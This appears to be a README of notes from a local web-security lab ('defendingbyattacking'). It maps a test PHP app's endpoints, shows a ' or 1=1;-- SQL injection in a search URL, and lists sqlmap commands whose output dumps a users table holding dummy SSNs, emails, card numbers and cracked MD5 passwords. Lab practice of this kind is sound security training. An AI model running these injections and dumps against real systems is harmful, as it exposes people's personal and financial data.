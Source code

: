 # defendingbyattacking1

Apache/2.4.37 (centos)
PHP 7.2.24

http://localhost:8080/index.php
Request Method: 
GET

http://localhost:8080/products/search.php?product
Request Method: 
GET
<input name="product" type="text">

http://localhost:8080/loginform.php
Request Method: 
POST
			<input name="username" type="text">
			<input name="password" type="password">

http://localhost:8080/signup.php
Request Method: 
GET

http://localhost:8080/contact.php
Request Method: 
POST

http://localhost:8080/products/search.php?product=%27+or+1%3D1%3B--
' or 1=1;--
get Product list:

http://localhost:8080/secret.php?id=1
Request Method: 
GET
parameter"id" 
get purchase list 


# defendingbyattacking2

sqlmap -r /home/kali/Desktop/loginrequest.raw -dbs    
sqlmap -r /home/kali/Desktop/loginrequest.raw -D information_schema -tables 
sqlmap -r /home/kali/Desktop/loginrequest.raw -D pg_catalog -tables  
sqlmap -r /home/kali/Desktop/loginrequest.raw -D public -tables  
sqlmap -r /home/kali/Desktop/loginrequest.raw -D public -T users 

back-end DBMS: PostgreSQL
available databases [3]:
[*] information_schema
[7 tables]
+-------------------------+
| sql_features            |
| sql_implementation_info |
| sql_languages           |
| sql_packages            |
| sql_parts               |
| sql_sizing              |
| sql_sizing_profiles     |
+-------------------------+

[*] pg_catalog

[63 tables]
+-------------------------+
| pg_aggregate            |
| pg_am                   |
| pg_amop                 |
| pg_amproc               |
| pg_attrdef              |
| pg_attribute            |
| pg_auth_members         |
| pg_authid               |
| pg_cast                 |
| pg_class                |
| pg_collation            |
| pg_constraint           |
| pg_conversion           |
| pg_database             |
| pg_db_role_setting      |
| pg_default_acl          |
| pg_depend               |
| pg_description          |
| pg_enum                 |
| pg_event_trigger        |
| pg_extension            |
| pg_foreign_data_wrapper |
| pg_foreign_server       |
| pg_foreign_table        |
| pg_index                |
| pg_inherits             |
| pg_init_privs           |
| pg_language             |
| pg_largeobject          |
| pg_largeobject_metadata |
| pg_namespace            |
| pg_opclass              |
| pg_operator             |
| pg_opfamily             |
| pg_partitioned_table    |
| pg_pltemplate           |
| pg_policy               |
| pg_proc                 |
| pg_publication          |
| pg_publication_rel      |
| pg_range                |
| pg_replication_origin   |
| pg_rewrite              |
| pg_seclabel             |
| pg_sequence             |
| pg_shdepend             |
| pg_shdescription        |
| pg_shseclabel           |
| pg_statistic            |
| pg_statistic_ext        |
| pg_statistic_ext_data   |
| pg_subscription         |
| pg_subscription_rel     |
| pg_tablespace           |
| pg_transform            |
| pg_trigger              |
| pg_ts_config            |
| pg_ts_config_map        |
| pg_ts_dict              |
| pg_ts_parser            |
| pg_ts_template          |
| pg_type                 |
| pg_user_mapping         |
+-------------------------+

[*] public

Database: public
[1 table]
+-------+
| users |
+-------+
Database: public
Table: users
[2 entries]
+----+-------+-----------+---------------+--------------------------------+----------------------------------+----------+----------------------+
| id | ssn   | name      | email         | address                        | password                         | username | credit_card          |
+----+-------+-----------+---------------+--------------------------------+----------------------------------+----------+----------------------+
| 1  | SSN-1 | Test user | test@test.com | 1st Test Avenue, Washington DC | 098f6bcd4621d373cade4e832627b4f6 | test     | VISA-1234-1234       |
| 2  | SSN-2 | Demo user | demo@demo.com | 1st Demo St., Washington DC    | fe01ce2a7fbac8fafaed7c982a04e229 | demo     | Mastercard-1234-1234 |
+----+-------+-----------+---------------+--------------------------------+----------------------------------+----------+----------------------+

[07:28:42] [INFO] resuming password 'test' for hash '098f6bcd4621d373cade4e832627b4f6' for user 'test'
[07:28:42] [INFO] resuming password 'demo' for hash 'fe01ce2a7fbac8fafaed7c982a04e229' for user 'demo'
Database: public
Table: users
[2 entries]
+----+-------+-----------+---------------+--------------------------------+-----------------------------------------+----------+----------------------+
| id | ssn   | name      | email         | address                        | password                                | username | credit_card          |
+----+-------+-----------+---------------+--------------------------------+-----------------------------------------+----------+----------------------+
| 1  | SSN-1 | Test user | test@test.com | 1st Test Avenue, Washington DC | 098f6bcd4621d373cade4e832627b4f6 (test) | test     | VISA-1234-1234       |
| 2  | SSN-2 | Demo user | demo@demo.com | 1st Demo St., Washington DC    | fe01ce2a7fbac8fafaed7c982a04e229 (demo) | demo     | Mastercard-1234-1234 |
+----+-------+-----------+---------------+--------------------------------+-----------------------------------------+----------+----------------------+


